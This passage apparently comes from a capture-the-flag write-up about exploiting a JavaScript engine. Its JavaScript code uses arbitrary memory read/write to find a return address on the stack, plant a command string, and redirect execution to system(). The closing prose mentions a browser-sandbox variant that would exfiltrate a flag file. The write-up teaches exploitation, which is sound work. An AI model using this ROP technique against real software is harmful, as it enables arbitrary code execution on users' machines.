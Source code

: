 ```js
var x;
for (var i = 0; ; i++) {
  x = read(stack_leak - i * 4);
  if (x >= libjs_base + 0x8d240 && x <= libjs_base + 0x8d33d) {
    var stack_ret = stack_leak - i * 4;
    console.log("Found it!", stack_ret.toString(16))

    console.log("Writing command onto stack ..")
    var ptr = stack_ret + 0x200

    for (var j = 0; j < cmd.length; j++) {
      write(ptr + 4 * j, cmd[j]);
    }

    console.log("cmd @", ptr.toString(16))

    console.log("Taking control ..")
    write(stack_ret + 0 * 4, system);
    write(stack_ret + 1 * 4, 0xDEADBEEF);
    write(stack_ret + 2 * 4, 0xAAAAAAAA); // dummy return address. We will crash after
    write(stack_ret + 3 * 4, ptr);

    break
  }
}

```

Well this works for the `js` shell interpreter.
But.. the `Browser` has additional sandboxing enabled, thus we cannot simply execute a new process.
Which means, we have to read the flag file, leak its content to the JavaScript runtime and eventually exfiltrate this information by sending a request using the Browser's standard facilities.

We will leave this exercise for another day ..
